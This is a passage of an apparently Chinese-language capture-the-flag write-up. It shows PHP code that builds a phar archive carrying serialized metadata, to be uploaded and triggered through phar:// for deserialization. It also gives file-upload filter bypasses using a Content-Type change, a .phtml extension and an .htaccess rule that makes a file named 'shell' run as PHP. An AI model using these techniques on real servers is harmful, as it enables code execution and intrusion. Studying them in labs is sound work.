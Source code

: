 ```php
$a = new aa();
echo urlencode(serialize($a));

# 下面这部分就没改
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

$phar->setMetadata($a); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```

把生成的phar文件上传上去

再到read.php利用file_get_content+phar://触发反序列化

![](https://i.loli.net/2021/10/11/vmsXcZgrhJe4Vlj.png)





## upload

### easyupload1.0

检查Content-Type,bp抓包改一下即可

![](https://i.loli.net/2021/10/11/ufXbvCpd5mqgB1G.png)

这个是假的，真的flag在phpinfo--

![](https://i.loli.net/2021/10/11/8jdABnDgL6vwqUF.png)



### easyupload2.0

在1.0基础上，文件名过滤了php

改用phtml

![](https://i.loli.net/2021/10/11/ibsL7Yv8mtDVdTo.png)

### easyupload3.0

配合`.htaccess`

```
<FilesMatch "shell">
    SetHandler application/x-httpd-php
</FilesMatch>
```
